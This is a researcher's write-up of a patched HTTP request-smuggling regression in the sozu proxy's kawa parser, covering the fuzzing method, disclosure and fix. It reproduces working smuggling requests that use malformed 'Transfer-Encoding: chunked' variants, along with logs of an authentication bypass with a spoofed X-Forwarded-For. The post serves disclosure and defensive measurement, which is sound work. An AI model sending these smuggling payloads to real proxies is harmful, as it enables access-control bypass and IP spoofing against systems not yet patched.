## the thing that bugged me

I want to start with the failure, because the failure is the whole reason this exists.

I had spent about a week pointing an evolutionary HTTP fuzzer at eight reverse proxies. HAProxy, nginx, Caddy, Envoy, Apache Traffic Server, sozu, OpenLiteSpeed, Apache httpd. The target class was request smuggling in the HTTP/3 and HTTP/2 to HTTP/1.1 downgrade, the part where a proxy takes a modern framed request and re-serializes it as HTTP/1.1 for an origin that only speaks 1.1. Every run came back clean.



The oracle was positive controlled. The sentinels fired on a known-vulnerable build. The labs were real Docker with real backends, not mocks. And the answer, every time, was one request framed, nothing smuggled. Eight stacks, weeks of compute, a clean sheet.

The bug was in my capture logs the whole time. I had built the test so it could never see it.

That sentence is the post. Everything below is how I got there and what fell out of it.

---

## the oracle that could not fail

Before the good part, the discipline, because it is where the trap was hiding.

A smuggling oracle is a counter. You fire one request at the front, and you count how many requests the backend framed out of it. One is benign. Two or more is a smuggle. The whole apparatus is trustworthy only if you can make it say two on demand, so every run started with a sentinel: a plainly pipelined pair of requests that a correct backend must frame as two. If the sentinel does not light up, the oracle is blind and every clean result is noise. I had been burned by silent oracles before, so this was non-negotiable.

The backend I used to count was a small server that read the request headers, then read exactly `Content-Length` body bytes, logged the request line, responded, and looped. Clean, deterministic, and it framed the pipelined sentinel as two every time. It looked like a perfect oracle.

It was a perfect oracle for exactly one class of bug and blind to the one I was hunting. It framed everything by `Content-Length`. If a front forwarded a request that framed differently under `Transfer-Encoding`, my counter read it by `Content-Length`, agreed with whatever the front intended, and logged one. The sentinel proved the counter could reach two. It did not prove the counter could reach two for the bug I cared about. Those are different guarantees, and I had conflated them.

I found this the slow way. An earlier HTTP/2 poisoning oracle I built never once fired a true positive across a full run, and I nearly filed that as "the H2 path is clean." Then I injected a known-good poisoning payload by hand and watched it stay silent. The oracle was structurally incapable of seeing the thing. A negative from an instrument you have not proven can produce a positive on the exact bug is not evidence of absence. It is an untested instrument. Write that on the wall.

---

## what already exists, and why the method is not mine

I did the homework before I wrote a word about methodology, because the worst outcome in this genre is dressing up a known technique as a discovery. The differential-fuzzing-for-smuggling space is not empty. It is well tilled, and two papers own the ground I was standing on.

- **T-Reqs** (Jabiyev et al., CCS 2021) is the grammar-based differential HTTP fuzzer. They generated mutated requests, ran ten server, proxy and CDN technologies in pairs, and found the pairs that disagree on message boundaries. Panel-pair differential fuzzing for HRS is theirs.
- **The HTTP Garden** (2024) is the one that should have saved me a week. Its whole thesis, in the abstract, is that not all parsing-discrepancy vulnerabilities are visible from a gateway's output alone, so you have to examine how the origin interprets the bytes too. That is exactly the mistake I was about to make, written down and published two years before I made it.

So the method here is not new, and what I did wrong is a re-derivation of the HTTP Garden's central point. The trigger I ended up with is older still. I am flagging both up front so the rest of the post keeps its credibility. The value is one specific implementation bug, since patched, an honest walk to it, and one small thesis at the end. Not a technique.

The fuzzer is called Phage. The name carries the lesson, so let me use it.

---

## the host it could not infect

A bacteriophage does not infect life in general. It infects one host, sometimes one strain, because the fit between the phage tail fiber and the host's surface receptor is specific. Wrong pair, nothing happens. The virus bounces off and drifts away.

A request smuggling vector has the same shape. It is not a property of a proxy. It is a property of a pair: a front that draws the message boundary one way, and a back that draws it another. The bug lives in the disagreement, not in either parser alone. CWE-444 even says so in its name, inconsistent interpretation.

I varied the front eight ways and held the back fixed at one immune host.



Eight fronts, one host. If a front emitted a message that only a different kind of backend would misread, my one backend read it the way the front intended, the two agreed, and the counter said one. I had a panel and I told myself it was diverse. It was diverse on the one axis that could not produce a hit.

---

## grepping my own logs

I stopped fuzzing and did the least clever thing available. I wrote a twenty-line parser and walked every byte my fronts had already forwarded to the backend across all those clean runs, looking only for framing ambiguity: both `Content-Length` and `Transfer-Encoding` on one request, a chunk size that did not match, a duplicate header. One hit came back, from sozu:

```
AAAAGET /admin HTTP/1.1
Host: lab
Content-Length: 40
Transfer-Encoding: chunked, identity
X-Forwarded-For: 172.46.0.1
Sozu-Id: 01KX...

0

GET /smuggled HTTP/1.1
Host: x
```

Two framing headers on one request. sozu had added its own `Sozu-Id`, so this was sozu's output, not my input echoed back. And the smuggled `GET /smuggled` that followed carried no `Sozu-Id`, which meant sozu never parsed it as a request. sozu framed the whole thing by `Content-Length`, swallowed the trailing bytes as an opaque body, and forwarded the `Transfer-Encoding` header along with them, untouched.



My strict backend also framed by `Content-Length`, agreed with sozu, and the smuggle stayed invisible. A backend that honors the `Transfer-Encoding` would split it in two. So I added one Go `net/http` backend to the panel.

The captured value did not fire. Go answers `chunked, identity` with a 501, which I only understood later when I built the matrix. What the log hit actually proved was the class, not the payload: sozu was willing to forward both framing headers on one request, and that is the whole precondition. The payload was a search problem after that, and it was a short search. Walking the obfuscations that sozu also fails to recognize, the two whitespace variants fire.

---

## the trigger is old, the bug is back

The value sozu choked on is `Transfer-Encoding: chunked` with a trailing tab. Send that plus a `Content-Length`, and sozu does not recognize the tab-suffixed token as chunked, so it frames by `Content-Length` and forwards both headers. Go trims the trailing tab, sees `chunked`, frames by `Transfer-Encoding`, reads the empty terminating chunk, and treats the bytes after it as a fresh request.



Here is the part that made me laugh and then wince. This exact trigger is in sozu's own issue tracker, #726, reported in 2021 out of a BuckeyeCTF challenge. It was fixed then by a patch that trimmed linear whitespace from the header value. Then sozu 2.0 rewrote its HTTP layer onto a parser crate called kawa, and the trim did not come along. The fix regressed.

The root cause is four lines in kawa's HTTP/1 parser:

```rust
const CHUNKED: &[u8] = b"chunked";
if val.len() >= CHUNKED.len()
    && compare_no_case(&val[val.len() - CHUNKED.len()..], CHUNKED)
{ /* elide content-length, frame as chunked */ }
```

It checks whether the last seven bytes equal `chunked`. No trailing-whitespace trim, no handling of a transfer-parameter like `chunked;a=b`, no check that chunked is the final coding in a list. When the check fails it keeps `Content-Length` and never strips the `Transfer-Encoding` it did not understand, so both go out. RFC 9112 section 6.1 says an intermediary must not forward both.

The whole bug is visible in seven bytes of arithmetic. Take the header value, slice the last seven bytes, compare:

| header value | len | last 7 bytes | suffix is `chunked`? | sozu frames by |
|---|---|---|---|---|
| `chunked` | 7 | `chunked` | yes | Transfer-Encoding, CL elided |
| `chunked<TAB>` | 8 | `hunked<TAB>` | no | Content-Length, TE forwarded |
| `chunked<SP>` | 8 | `hunked<SP>` | no | Content-Length, TE forwarded |
| `chunked;a=b` | 11 | `ked;a=b` | no | Content-Length, TE forwarded |
| `chunked, identity` | 17 | `dentity` | no | Content-Length, TE forwarded |

Row one is the only row sozu's own regression test exercises, and it is the only row that behaves. Every other row is a request that leaves sozu carrying two framing headers.

There is a second, funnier half. The same slice is wrong in the other direction:

| header value | last 7 bytes | suffix is `chunked`? |
|---|---|---|
| `xchunked` | `chunked` | yes |
| `notchunked` | `chunked` | yes |

`xchunked` is the classic TE.CL obfuscation, and sozu's check reads it as chunked. I expected a second desync out of that and went to test it. I did not get one, and the reason is worth more than the result would have been:

```
sozu 2.1.0, does the smuggled /admin/secret reach the origin?
  TE: 'chunked'              smuggled_reached_backend=False   <- well-formed, handled correctly
  TE: 'chunked\t'            smuggled_reached_backend=True    <- the bug
  TE: 'chunked '             smuggled_reached_backend=True    <- the bug
  TE: 'xchunked'             smuggled_reached_backend=False
  TE: 'notchunked'           smuggled_reached_backend=False
  TE: 'identity'             smuggled_reached_backend=False   <- negative control
```

When the suffix matches, sozu commits to chunked and elides the `Content-Length`. It then de-chunks the body itself, hits the zero-length chunk, and treats everything after it as the next request on the client connection. Which it then parses, routes, and authenticates. The bytes I wanted to smuggle came back as an ordinary pipelined request wearing no disguise. A parser that is wrong in a way that makes it read *more* of your input is not exploitable in the same direction as one that is wrong in a way that makes it read *less*. Only the under-reading direction leaves bytes on the wire for someone else to frame.

And the reason nobody caught the regression: sozu's own smuggling test sends a well-formed `Transfer-Encoding: chunked`, which passes the suffix check and is handled correctly. The test never sends a malformed value, so the regression landed exactly in the blind spot of the test written to prevent it. At the time of the report I confirmed it on the then-latest tagged release, 2.1.0, and on current `main`, 2.1.1, over a plain HTTP frontend and a TLS-terminating one, since the parser runs after the TLS decrypt. It is fixed now, in kawa 0.7.0 and sozu 2.2.0. The patch is at the end of this post.

---

## how far it actually goes

The primitive is clean: I can deliver a request to the backend that sozu never parsed, routed, filtered, or logged. What that is worth depends on what the backend trusts. The strongest thing I could demonstrate end to end is an authentication bypass, and it needed a feature sozu did not have in 2021.

sozu 2.x added per-frontend HTTP Basic auth. So I set up two frontends on one backend cluster: `/public` open, `/admin` gated. A direct `GET /admin/secret` returns 401.



The run, verbatim, the controls first so the gate is real:

```
== controls ==
  direct GET /admin/secret (no creds)   -> HTTP/1.1 401 Unauthorized
  direct GET /admin/secret (with creds) -> HTTP/1.1 200 OK
== exploit (unauthenticated) ==
  REQ GET /public/x     auth="" xff="172.63.0.1" te=[chunked]
  REQ GET /admin/secret auth="" xff="6.6.6.6"                  <- smuggled, no auth
  REQ GET /public/y     auth="" xff="172.63.0.1"
== negative control: same bytes, Transfer-Encoding removed ==
  /admin/secret leaked in control: False
  RESULT: AUTH BYPASS REPRODUCED
```

Drop the one `Transfer-Encoding` header and the whole thing collapses to two boring public requests. That negative control is the finding. The precondition rides with the severity and I will not bury it: this needs auth on one route while an attacker-reachable route shares the backend. Gate the whole frontend and the carrier itself needs auth, and the bypass dies. High, conditional on topology, not a flat high. CVSS 7.5, `CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:L/A:N`. The `AC:H` is carrying the topology precondition and the `S:C` is the crossing of sozu's own auth boundary. Score the crate on its own, without the auth topology, and you land on a different vector for the same defect, which is the one I put in the RustSec advisory.

Note the `xff="6.6.6.6"` on the smuggled line. sozu appends the real client IP to `X-Forwarded-For` on requests it parses. It never parsed this one, so the backend gets an attacker-chosen client IP, clean. Any XFF allowlist behind sozu is spoofable through the same door.

---

## the walls I hit

This is the honest half, the part where the impact stops. I wanted cross-user, the version that would make it critical, and I could not get there. I want to show the walls because the walls are the finding too.

**Response-queue poisoning: negative.** After sozu framed the attack by CL and read one response, the backend had a second response queued (for the smuggled request). If sozu pooled that connection for another client, the next victim would read the stale response. I fired the attack, then a victim on a separate connection. The victim got its own response. Clean.

**Dangling-request capture: negative.** I tried the sharper version: a smuggled request with an incomplete body, so the backend holds the connection waiting and captures the next victim's bytes. Same result. The victim landed on a fresh backend connection.

Both failed for the same reason, and I confirmed it twice, once by watching source ports and once by reading the source:



sozu binds one backend connection per client connection. Four separate clients get four backend ports; a poisoned connection is the attacker's own, closed when they leave. The response read-back in the auth bypass works only because it is the attacker reading over their own connection. That one-to-one model is a genuinely good design choice, and I am not going to pretend it away because a bigger number would read better.

The last escape hatch was a shared cache: poison a cache entry once, serve it to everyone, no connection reuse needed. So I ran a cache-and-proxy honor matrix. The two caches people actually deploy shut the door:

```
nginx proxy_cache   chunked<TAB>+CL  -> 501, rejected. dead.
Varnish             chunked<TAB>+CL  -> 400, rejected. dead.
HAProxy / Apache    chunked<TAB>+CL  -> de-chunk but neutralize, single request. dead.
Caddy / Traefik / Souin (Go net/http inbound) -> honor + forward a laundered smuggle.
```

Only Go-based caches honor it, and I did not choreograph the full store-and-serve. So the cross-user path is alive by mechanism on a narrow, Go-flavored slice of the world and dead on the common one. Real, demonstrable, high-conditional, honestly not critical.

---

## the patch

I reported it privately on 10 July 2026 to `security@clever.cloud`, the address in their `.well-known/security.txt`, as a regression of #726. The ask was to fix it at the class, not the trigger. The defect is forwarding both `Content-Length` and `Transfer-Encoding` at all. Trim the tab and `chunked, identity` still slips through, and Werkzeug honors that one. The right fix is to reject or normalize whenever a `Transfer-Encoding` is present but does not resolve to a valid final `chunked`, never to fall back to `Content-Length` and forward a header you did not understand.

Four days later, kawa [PR #19](https://github.com/CleverCloud/kawa/pull/19) landed and did exactly that. The four lines above became this:

```rust
/// Trims leading and trailing optional whitespace (OWS) as defined by
/// RFC 9110 §5.6.3: space (0x20) and horizontal tab (0x09).
fn trim_ows(mut data: &[u8]) -> &[u8] {
    while let [b' ' | b'\t', rest @ ..] = data { data = rest; }
    while let [rest @ .., b' ' | b'\t'] = data { data = rest; }
    data
}

/// Returns true if the FINAL comma-separated transfer-coding token of a
/// Transfer-Encoding header value is `chunked`, case-insensitively, once
/// OWS has been trimmed from around the token (RFC 9112 §6.1).
fn ends_with_chunked_coding(val: &[u8]) -> bool {
    const CHUNKED: &[u8] = b"chunked";
    let last_token = val.rsplit(|&b| b == b',').next().unwrap_or(val);
    compare_no_case(trim_ows(last_token), CHUNKED)
}
```

Both halves of the class are gone. `trim_ows` kills the tab and the trailing space. `ends_with_chunked_coding` splits on commas and checks the final token, which kills `chunked, identity`. And when a `Transfer-Encoding` is present but its final coding is not `chunked`, the parser now raises a parse error instead of quietly falling back to `Content-Length`, which is what RFC 9112 section 6.3 has been asking for the whole time. The comment they left in the source says it closes sozu-proxy/sozu#726.

That is the correct fix, and it is a better outcome than a patch that only trimmed the tab.

## where it stands

The timeline, plainly:

- **10 July 2026**, reported privately with a full write-up and a self-contained Docker reproduction.
- **14 July**, three commits land in kawa PR #19 removing the suffix compare.
- **15 July**, PR #19 merges, kawa 0.7.0 and 0.7.1 ship.
- **16 July**, sozu 2.2.0 ships, pinned to `kawa ^0.7.1`. Its release notes call the change "HTTP/1 `Transfer-Encoding` smuggling hardening".

If you run sozu, upgrade to 2.2.0. If you depend on kawa directly, upgrade to 0.7.0 or later. Everything before that carries the bug.

I never got a reply to the email. At the time of writing there is no CVE and no advisory, and the kawa release notes present the change as an RFC-correctness fix, so anyone still on 0.6.x has no signal that they should upgrade for a smuggling bug. That gap is worth closing on its own, so I filed a [RustSec advisory](https://github.com/rustsec/advisory-db/pull/3142) for the crate, affected `< 0.7.0`, patched `0.7.0`. I am not going to speculate about why the mail went unanswered. The fix is good, it is out, and it landed fast.

No new technique. The trigger is from 2019, the bug is a regression of a 2021 report, and the method belongs to the two papers I cited up top. What was worth the week is smaller and more useful: a differential is only as strong as the diversity on both sides of it, one immune host makes every attacker look harmless, the honor matrix says the vulnerable unit is the parser and not the product, and the moment I added a host that disagrees, a request that had sat in my logs for days became an auth bypass.

---

# part two: the instrument

Everything above is one bug, found the slow way, by a person reading logs. The interesting question is not that bug. It is why a week of automated search could not see it, and what the search should have looked like instead.

The answer is in the shape of the class, and it was in the previous section the whole time.

## a disagreement is two independent facts

Take the classic CL.TE desync apart and look at what each side contributes.

The front receives a request carrying both a `Content-Length` and some malformed `Transfer-Encoding`. It has to decide which one frames the message. If it picks `Content-Length` and then **forwards the `Transfer-Encoding` anyway**, it has handed the backend a second opinion it did not itself accept.

The back receives that request and makes its own decision. If it honors the `Transfer-Encoding` the front ignored, the two now disagree about where the message ends, and the bytes past that boundary become a request nobody authorized.



Neither half is a vulnerability. A front that forwards both headers is harmless behind a backend that rejects the value. A backend that honors `chunked<TAB>` is harmless behind a front that strips it. The bug is the conjunction, and the conjunction is exactly what makes pair testing expensive: the property you are measuring is a product of two things you keep measuring together.

So measure them apart.

- **Front question:** for each framing value, does this proxy forward it next to a `Content-Length`?
- **Back question:** for each framing value, does this server honor it?

A pair is predicted to desync when the answer to both is yes for the same value. Seven fronts and eleven backends is seventy-seven pairs, and it costs eighteen experiments.



Change one backend in the pairwise world and every result you have is silent about it. Change one backend in the other world and you run a single measurement, then re-join.

## measuring the back half

The backend question needs an answer to "did this server frame one request or two", and I wanted it without writing a logging application in every language on the list.

The trick is to let the server tell you by how much it says. Send one request whose declared body contains a complete second request hidden behind a zero-length chunk. Then count HTTP responses on the connection.

```
POST /carrier HTTP/1.1
Host: lab
Content-Length: 43
Transfer-Encoding: chunked<TAB>

0

GET /SMUGGLED HTTP/1.1
Host: lab

```

One response means it read the body as forty-three opaque bytes and framed a single request. Two responses means it de-chunked, hit the zero-length terminator, and framed `GET /SMUGGLED` as a request in its own right. That is language-agnostic, so adding a backend is a container image and a one-line app.



## the part that makes it trustworthy

Here is where I have to be careful, because I have been burned by this exact thing.

Counting responses can only detect a second framed request on a connection the server keeps open. A backend that closes after one response **cannot produce a two**, ever, for any input. If I run that backend and report "no smuggling detected", I have written down a fact about my instrument and labelled it a fact about the server.

So every row is gated on a control: two explicitly pipelined requests that any correct keep-alive server must answer twice. If the control does not come back with two responses, the counter cannot reach two on that backend, and every verdict from it is withheld as `UNTRUSTED` rather than published as safe.



```
  gunicorn (sync)
    CONTROL FAILED (responses=1), verdicts untrusted
  Werkzeug (dev)
    CONTROL FAILED (responses=0), verdicts untrusted
```

Both of those close the connection after one response. I do not know whether they honor a tab-suffixed `Transfer-Encoding`, and the table says so instead of guessing. It is worth noting they are also poor smuggling targets for the same reason: without connection reuse there is no pooled connection to poison. But that is a separate argument, and I did not want the table to make it for me by accident.

The rule I keep coming back to: a negative from an instrument that has never produced a positive is not evidence of absence. It is an untested instrument.

## measuring the front half

The front question is different. I do not care what the proxy answers me. I care what it says to the origin.

So the harness runs a byte-recording origin and reads the exact request head each proxy emits, which sorts every front into four buckets:

| verdict | meaning |
|---|---|
| `FORWARDS-BOTH` | sent `Content-Length` and `Transfer-Encoding` downstream. Dangerous half. |
| `normalized` | acted on the `Transfer-Encoding` and dropped the `Content-Length`. Agrees with a strict back. |
| `stripped` | dropped the `Transfer-Encoding` before forwarding. Safe. |
| `rejected` | refused the request outright. Safe. |

And the same discipline applies, harder. The first time I ran this across HAProxy, nginx, Caddy and Traefik, every single cell came back `normalized` or `rejected`. A clean sheet. I have seen that movie, so I did not believe it.

I added a front I already knew the answer for: sozu 2.1.0, the build carrying a `Transfer-Encoding` bug I had reported and which was fixed in kawa 0.7.0.

```
  sozu 2.1.0 (control, known-vulnerable)
    chunked              normalized
    chunked<TAB>         FORWARDS-BOTH
    chunked<SP>          FORWARDS-BOTH
    chunked;a=b          FORWARDS-BOTH
    chunked, identity    FORWARDS-BOTH
```

That row is not a finding, it is a calibration. It proves the instrument can produce a positive, which is the only thing that makes the four clean rows above it mean anything. The control lives in the repo as a permanent fixture, not as a thing I ran once and deleted.

## the arithmetic showing up in the measurements

The sozu bug was a seven-byte suffix compare. The parser checked whether the last seven bytes of the header value were `chunked`, with no whitespace trim and no check that chunked was the final coding.

I expanded the variant axis to eleven header blocks, including some designed to probe that specific shape, and the front-side numbers reproduce the arithmetic without ever reading the source:

| value | last 7 bytes | sozu 2.1.0 |
|---|---|---|
| `chunked` | `chunked` | normalized |
| `identity, chunked` | `chunked` | normalized |
| `xchunked` | `chunked` | normalized |
| `chunked<TAB>` | `hunked<TAB>` | FORWARDS-BOTH |
| `chunked;a=b` | `ked;a=b` | FORWARDS-BOTH |
| `chunked, identity` | `dentity` | FORWARDS-BOTH |

